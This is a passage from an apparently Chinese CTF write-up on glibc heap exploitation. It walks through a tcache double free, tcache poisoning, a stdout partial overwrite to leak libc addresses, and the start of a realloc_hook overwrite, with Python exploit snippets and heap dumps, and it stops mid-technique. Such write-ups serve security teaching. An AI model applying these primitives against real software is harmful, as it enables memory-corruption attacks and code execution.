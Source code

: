 double free 导致chunk的fd指向自己，形成了一个无限循环,当调用malloc时可以多次申请出同一个chunk，每次结构中count 就会减1。
如果两次free, 三次malloc就会导致count 变成0xff, 让程序误认为已经有很多tcache ，因此下一次free 直接放到unsorted bin中。

还需要注意，一旦放入unsorted bin 如果和top chunk 相邻就会合并，需要申请一个0x2f的chunk 防止合并，同时free掉放入tcache，准备下一次tcache poison使用。

```python
    new(0x7f,"a"*4)
    new(0x7f,"a"*4)
    de()
    de()

    new(0x2f,"") # 防止新unsorted bin 和topchunk合并
    de()

    new(0x7f,"")
    new(0x7f,"")
    new(0x7f,"")
    de()
``` 

堆情况如下

```
tcachebins
0x40 [  1]: 0x555555759380 ◂— 0x0
0x90 [ -1]: 0x5555557592f0 —▸ 0x7ffff7dcfca0 (main_arena+96)
unsortedbin
all: 0x5555557592e0 —▸ 0x7ffff7dcfca0 (main_arena+96) ◂— 0x5555557592e0
```

此时chunk同时存在于tcache和unsorted bin 中，从unsorted bin 中分配堆块覆盖fd ，再使用tcache poisoning (类似UAF)

#### 3. 泄露地址

1. new chunk 修改fd为stdout地址，需要一点爆破 `\x60\x07\xdd`
此时tcache 中的entry 依然指向原来的地址
`0x90 [ -1]: 0x5555557592f0 —▸ 0x7ffff7dd0760 (_IO_2_1_stdout_)`

```python
new(0x20,"\x60\x07\xdd")
new(0x7f,p64(0)*5+p64(0xa1)) # 伪造size 合并下面的chunk
new(0x7f,p64(0xfbad1800)+p64(0)*3+'\x00')
```
修改flag为0xfbad1800 构造stdout leak,覆盖write_base 指针的最低字节为\x00,下一次输出就会把write_base 到write_ptr的内容输出出来。

#### 4. 攻击realloc_hook

使用之前tcache中的`0x40 [  1]: 0x555555759380 ◂— 0x0` , 修改位于0x555555759380 的entry 指向realloc_hook(在malloc_hook前面)

```
unsorted bin 
all: 0x555555759310 —▸ 0x7ffff7dcfca0 (main_arena+96) ◂— 0x555555759310
```
二者距离0x60,申请0x68的chunk, 将0x555555759380 覆盖为realloc_hook
但是此时堆中可用size 最大是0x60,需要将这个chunk扩大,才能利用malloc 0x68 覆盖tcache中chunk的fd为realloc_hook
